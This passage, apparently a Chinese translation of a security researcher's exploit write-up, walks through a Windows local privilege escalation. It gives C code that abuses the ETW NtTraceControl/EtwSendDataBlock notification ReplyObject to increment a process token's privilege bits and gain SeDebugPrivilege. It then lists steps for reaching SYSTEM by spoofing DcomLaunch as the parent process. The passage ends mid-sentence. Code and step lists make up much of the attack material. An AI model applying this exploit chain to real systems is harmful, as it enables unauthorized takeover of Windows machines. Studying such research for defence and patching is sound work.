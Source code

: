 ```
presentPrivilegesAddress = (PVOID)((ULONG_PTR)tokenAddress +
                           offsetof(TOKEN, Privileges.Present) + 2);
enabledPrivilegesAddress = (PVOID)((ULONG_PTR)tokenAddress +
                           offsetof(TOKEN, Privileges.Enabled) + 2);
```

然后，我们将定义数据块（DataBlock）并将其置为零：

```
ETWP_NOTIFICATION_HEADER dataBlock;
RtlZeroMemory(&amp;dataBlock, sizeof(dataBlock));
```

并填充所有需要的字段：

```
dataBlock.NotificationType = EtwNotificationTypeCredentialUI;
dataBlock.ReplyRequested = 2;
dataBlock.NotificationSize = sizeof(dataBlock);
dataBlock.ReplyObject = (PVOID)((ULONG_PTR)(presentPrivilegesAddress) +
                        offsetof(OBJECT_HEADER, Body));
dataBlock.DestinationGuid = EXPLOIT_GUID;
```

最后，使用通知头部（notification header）调用NtTraceControl (我们可以传递dataBlock作为输出缓冲区，但我决定定义一个新的ETWP_NOTIFICATION_HEADER):：

```
status = NtTraceControl(EtwSendDataBlock,
                        &amp;dataBlock,
                        sizeof(dataBlock),
                        &amp;outputBuffer,
                        sizeof(outputBuffer),
                        &amp;returnLength);
```

然后，我们将用相同的值重新填充字段，将ReplyObject设置为(PVOID)((ULONG_PTR)(enabledPrivilegesAddress) + offsetof(OBJECT_HEADER, Body))，并再次调用NtTraceControl以增加我们的权限。

然后我们看我们的token:

[![](https://p5.ssl.qhimg.com/t01443ecad722b5c942.png)](https://p5.ssl.qhimg.com/t01443ecad722b5c942.png)

而且我们有SeDebugPrivilege！

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8SeDebugPrivilege"></a>使用SeDebugPrivilege

一旦拥有SeDebugPrivilege，您就可以访问系统中的任何进程。这为您提供了多种不同的方式来运行代码SYSTEM，例如，将代码注入系统进程。

我选择使用Alex和我在faxhell中演示的技术:创建一个新进程，并将其重新赋值为一个非可疑的系统级父进程，这将使新进程作为SYSTEM运行。我选择了和Faxhell一样的服务——DcomLaunch。

可以在有关Faxhell的文章中找到有关此技术的完整说明，因此，我将简要说明以下步骤：
- 1.使用exploit来接收SeDebugPrivilege。
- 2.打开DcomLaunch服务，查询该服务以接收PID，并使用PROCESS_ALL_ACCESS打开进程。
- 3.初始化进程属性，并传入PROC_THREAD_ATTRIBUTE_PARENT_PROCESS属性和DcomLaunch的句柄，以将其设置为父进程。
- 4.使用这些属性创建一个新进程
我执行了这些步骤后:
